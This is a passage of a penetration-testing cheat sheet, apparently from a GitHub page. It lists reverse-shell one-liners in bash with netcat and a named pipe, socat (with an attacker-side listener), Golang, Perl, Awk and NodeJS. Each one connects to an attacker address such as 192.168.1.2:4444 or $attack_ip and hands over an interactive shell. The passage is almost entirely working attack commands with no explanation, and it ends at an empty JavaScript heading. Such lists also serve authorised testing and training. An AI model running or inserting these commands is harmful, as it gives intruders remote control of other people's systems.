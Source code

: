 ```bash
rm -f /var/tmp/backpipe 
mknod /var/tmp/backpipe p
nc $attack_ip $port 0</var/tmp/backpipe | /bin/bash 1>/var/tmp/backpipe
```

### **Socat Reverse Shell**

```bash
socat tcp-connect:$IP:$port exec:"bash -li",pty,stderr,setsid,sigint,sane
```

```bash
#Listener on attacker machine
socat -d TCP-LISTEN:$port file:`tty`,raw,echo=0 
#From victim
socat TCP4:$IP:$port exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane 
```

`-d` increases verbosity of output

### **Golang Reverse Shell**

```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.1.2:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### **Perl Reverse Shell**

```perl
perl -e 'use Socket;$i="192.168.1.2";$p=8081;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### **Awk Reverse Shell**

```
awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/4444"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### **NodeJS Reverse Shell**

```
require('child_process').exec('nc -e /bin/sh 192.168.1.2 4444')
```

### **JavaScript Reverse Shell**
